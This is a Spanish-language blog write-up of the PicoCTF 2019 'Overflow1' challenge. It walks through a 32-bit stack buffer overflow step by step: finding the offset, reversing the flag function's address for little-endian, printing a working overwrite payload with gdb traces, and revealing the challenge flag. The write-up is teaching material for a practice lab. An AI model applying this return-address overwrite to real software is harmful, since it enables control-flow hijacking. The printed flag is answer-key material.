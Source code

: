 ```yaml
---
layout      : post
title       : "PicoCTF2019 - Overflow1"
author      : lanz
image       : https://raw.githubusercontent.com/lanzt/blog/main/assets/images/articles/CTF/picoctf/2019/overflow1/overflow1.jpeg
category    : [ article ]
tags        : [ buffer-overflow ]
---
```

Exploraremos un `Buffer Overflow` pa toda la familia, tendremos que moveremos a una función que contiene la flag.

> You beat the first overflow challenge. Now overflow the buffer and change the return address to the flag function in this [program](https://github.com/lanzt/blog/blob/main/assets/files/articles/CTF/picoctf/2019/overflow1/vuln)? You can find it in /problems/overflow-1_1_e792baa0d29d24699530e6a26071a260 on the shell server. [Source](https://github.com/lanzt/blog/blob/main/assets/files/articles/CTF/picoctf/2019/overflow1/vuln.c).

### Spanish writeup

El ejercicio nos dice que debemos lograr cambiar la dirección de retorno y que nos lleve a la función `flag`.

Ya con los archivos hacemos:

```bash
$ file *
vuln:      ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=5d4cdc8dc51fb3e5d45c2a59c6a9cd7958382fc9, not stripped
vuln.c:    C source, ASCII text
```

Veamos que hace el programa:

```bash
$ ./vuln 
Give me a string and lets see what happens: 
hello
Woah, were jumping to 0x8048705 !
```

Simplemente nos pide un input y nos dice la instrucción a la que hemos saltado. Así que cuando logremos llegar a la función `flag`, supongo que nos mostrara la dirección.

Source [vuln.c](https://github.com/lanzt/blog/blob/main/assets/files/articles/CTF/picoctf/2019/overflow1/vuln.c).

```c
#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  ...
  fgets(buf,FLAGSIZE,f);
```

Algunos detalles de assembly antes de seguir:

| Registro | Arquitectura | Descripción |
| :------: | :----------: | :---------- |
| eip      | 32 bits      | El registro que almacena la siguiente instrucción a la cual ir |
| rip      | 64 bits      | Instruction pointer register |
| ebp      | 32 bits      | El registro que apunta a una ubicación fija dentro del marco de una función, así sera más fácil acceder a variables y argumentos |
| rbp      | 64 bits      | Base pointer register |

Siguiendo con el fuente, nos encontramos con un **buffer de 64**, haciendo la prueba de fuego:

```bash
$ python -c 'print "A"*64' | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x8048705 !
```

Vemos que no pasa nada, ya que los siguientes `4 bits` guardaran la data que tenga el registro `ebp` y los siguientes 4 bytes tendrán la dirección de retorno (almacenada en `eip`).

* Lo explica [Dhaval Kapil en su brutal articulo](https://dhavalkapil.com/blogs/Buffer-Overflow-Exploit/).

Sumaremos los **4 bytes del `eip`** y los **4 bytes del `ebp`**, se los agregamos a los **64 del buffer**:

```bash
$ python -c 'print "A"*72' | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x8048705 !
Violación de segmento
```

Obtenemos el overflow, tamos bien.

Saquemos la direccion en memoria de la función `flag`. Lo podemos hacer con `gdb`, `objdump`, `ida`.. Usa el de preferencia.

```bash
$ gdb ./vuln
info functions
...
0x080485e6  flag
...
```

Un detalle importante para este paso es conocer si nuestro sistema es [little-endian o big-endian](http://wikitronica.labc.usb.ve/index.php/Little_Endian_y_Big_Endian).

Esto decidirá como va a leer nuestro porcesador el programa. Si eres un `little-endian` (un pequeño indio e.e), entonces debemos colocar la dirección de `flag` en reverso.

* Ejemplo: `0x080485e6  flag` entonces pondremos `e6` `85` `04` `08`.

```bash
$ python -c 'print "A"*72 + "\xe6\x85\x04\x08"' | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x8048700 !
Woah, were jumping to 0x8048705 !
Violación de segmento
```

**¿Por que habrá salido dos veces la instrucción?**

```bash
$ gdb ./vuln -q
Reading symbols from ./vuln...
(No debugging symbols found in ./vuln)
gdb-peda$ b vuln
Breakpoint 1 at 0x8048663
gdb-peda$ r <<< $(python -c 'print "A"*72 + "\xe6\x85\x04\x08"')
```

Continuamos...

```bash
gdb-peda$ c
Continuing.
Woah, were jumping to 0x8048700 !
[----------------------------------registers-----------------------------------]
EAX: 0x22 ('"')
EBX: 0x41414141 ('AAAA')
ECX: 0xffffffff 
EDX: 0xf7fa4010 --> 0x0 
ESI: 0xf7fa2000 --> 0x1d6d6c 
EDI: 0xf7fa2000 --> 0x1d6d6c 
EBP: 0xffffd1b8 --> 0x80485e6 (<flag>:	push   ebp)
ESP: 0xffffd1b4 ("AAAA\346\205\004\b\005\207\004\b\001")
```

Aún no hemos llegado a la dirección de la función `flag`

```bash
Woah, were jumping to 0x8048700 !
Woah, were jumping to 0x8048705 !
```

Si intentamos `"A"*73` vemos esto:

```bash
$ python -c 'print "A"*73 + "\xe6\x85\x04\x08"' | ./vuln
Woah, were jumping to 0x8040008 !
```

**Hemos cambiado el registro que direcciona!!**

Why?

> Sencillamente son los **4 bytes** que ocupa la dirección de la función `flag` que estamos agregando despues de imprimir las `"A"`.

```bash
$ python -c 'print "A"*76 + "\xe6\x85\x04\x08"' | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x80485e6 !
Flag File is Missing. please contact an Admin if you are running this on the shell server.
```

```bash
Woah, were jumping to 0x80485e6 !
```

Y ahí lo tenemos, estamos en la dirección de la función `flag`.

Si lo corremos en el servidor remoto de picoCTF:

```bash
pico-2019:/$ python -c 'print "A"*76 + "\xe6\x85\x04\x08"' | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x80485e6 !
picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5a1b468a7}Segmentation fault (core dumped)
```

<h3>picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5a1b468a7}</h3>

Tenemos la flag (: Y hemos corrompido el flujo del programa.